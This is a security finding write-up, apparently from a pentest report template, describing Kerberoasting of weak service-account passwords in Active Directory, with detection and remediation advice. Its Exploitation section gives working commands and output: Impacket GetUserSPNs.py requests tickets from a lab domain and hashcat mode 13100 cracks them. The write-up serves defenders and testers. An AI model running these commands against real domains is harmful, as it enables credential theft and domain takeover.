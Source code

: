 /*
Title: Weak SPN Password
Description: Crackable password attached to SPN
*/

- LAST UPDATED DATE: 2016/05/25
- LAST UPDATED BY: @mubix

## Summary

Service Principal Names (SPNs) are a Microsoft way of desinating and identifying where services are running in a domain. These SPNs are attached to accounts within active directory. Any Domain User has the ability to lookup these attributes and request access to the service they provide. The Active Directory Domain Controller will issue the user requesting access to the service a Kerberos ticket. This ticket includes in it the encrypted and hashed password for the user the service is running under. Microsoft does this to allow access in the process of that service.

Example SPN Kerberos Tickets:

```
Id                   : uuid-7856e72a-2c40-4d94-a939-8c671b80e2bd-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 5/19/2016 3:06:41 PM
ValidTo              : 5/20/2016 12:53:24 AM
ServicePrincipalName : http/win10.sittingduck.info
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-7856e72a-2c40-4d94-a939-8c671b80e2bd-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 5/19/2016 3:06:41 PM
ValidTo              : 5/20/2016 12:53:24 AM
ServicePrincipalName : MSSQLSvc/WIN2K8R2.sittingduck.info
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

## Capabilities and Risk

An attacker can use the SPN services to request tickets for all of the SPNs listed in the domain and attempt to crack the passwords for all of the users the services are running under. If the SPN services are running under a user context, and the attacker is able to brute force crack the password for that user, the attacker can then utilize that password in any way that user has permissions for.

- Aquire list of services running on a particular host
- Aquire Kerberos tickets with the context of the user running the service
- Compromise a domain based on the level of the user running the SPN service (Domain Admin accounts have been used to run Services in the past)

## Detection

Because this is standard usage of Active Directory it blends into normal daily traffic. Windows Advanced Threat Analytics (ATA) has a module that includes detection of large numbers of SPN Kerberos ticket requests. The other useful detection mechanism is to detect any time a service account is used outside of the machine to which it is assigned.

## Remediation

- Use Managed Service Accounts if possible. They are automatically restricted to a single machine (will not work for cluster services), and change their password on a regular basis much like computer accounts.
- Insure that any service accounts have long, strong passwords (20 character+)

## References

- [Service Principal Names](https://msdn.microsoft.com/en-us/library/ms677949(v=vs.85%29.aspx)
- [Managed Service Accounts](https://technet.microsoft.com/en-us/library/dd560633(v=ws.10%29.aspx)
- [Cracking Kerberos TGS Tickets Using Kerberoast - Exploiting Kerberos to Compromise the Active Directory Domain - Sean Metcalf - ADSecurity.org](https://adsecurity.org/?p=2293)

## Exploitation

Acquire list of SPNs and request them using Impacket's GetUserSPNs.py example script:
```
root@wpad:~/impacket/examples# ./GetUserSPNs.py -dc-ip 192.168.168.10 sittingduck.info/notanadmin
Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies

Password:
ServicePrincipalName                Name        MemberOf                                          PasswordLastSet
----------------------------------  ----------  ------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01         
```

Crack the service ticket password using oclHashcat:
```
root@sf:~/oclHashcat# ./oclHashcat -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l 
oclHashcat v2.01 (g0891e39) starting...

Device #1: Hawaii, 2858/4025 MB allocatable, 1010Mhz, 44MCU
Device #2: AMD FX(tm)-8120 Eight-Core Processor, skipped

Hashes: 1 hashes; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Applicable Optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt
* Brute-Force
Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger set to 80c

Device #1: Kernel /root/git/oclHashcat/kernels/m13100_a3.919aa8b9.kernel (234320 bytes)
Device #1: Kernel /root/git/oclHashcat/kernels/markov_le.919aa8b9.kernel (36184 bytes)

Device #1: autotuned kernel-accel to 64
Device #1: autotuned kernel-loops to 50

[s]tatus [p]ause [r]esume [b]ypass [c]heckpoint [q]uit =>

$krb5tgs$23$*user$realm$test/hashcat*$08e2261b7a89e56f530b2f7e0620fe8b$ecdca97c13814c95810d7706faf986dad98d06ba033fc5a45fbe9b417b855db5:hashcat

Session.Name...: oclHashcat
Status.........: Cracked
Input.Mode.....: Mask (?l?l?l?l?l?l?l) [7]
Hash.Target....: $krb5tgs$23$*user$realm$test/hashcat*$08e...
Hash.Type......: Kerberos 5 TGS-REP etype 23
Time.Started...: Wed Feb 17 08:33:57 2016 (5 secs)
Speed.Dev.#1...:   111.0 MH/s (80.83ms)
Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.......: 252313600/8031810176 (3.14%)
Rejected.......: 0/252313600 (0.00%)
Restore.Point..: 0/456976 (0.00%)
HWMon.GPU.#1...:  0% Util, 42c Temp, 20% Fan

Started: Wed Feb 17 08:33:57 2016
Stopped: Wed Feb 17 08:34:04 2016
```
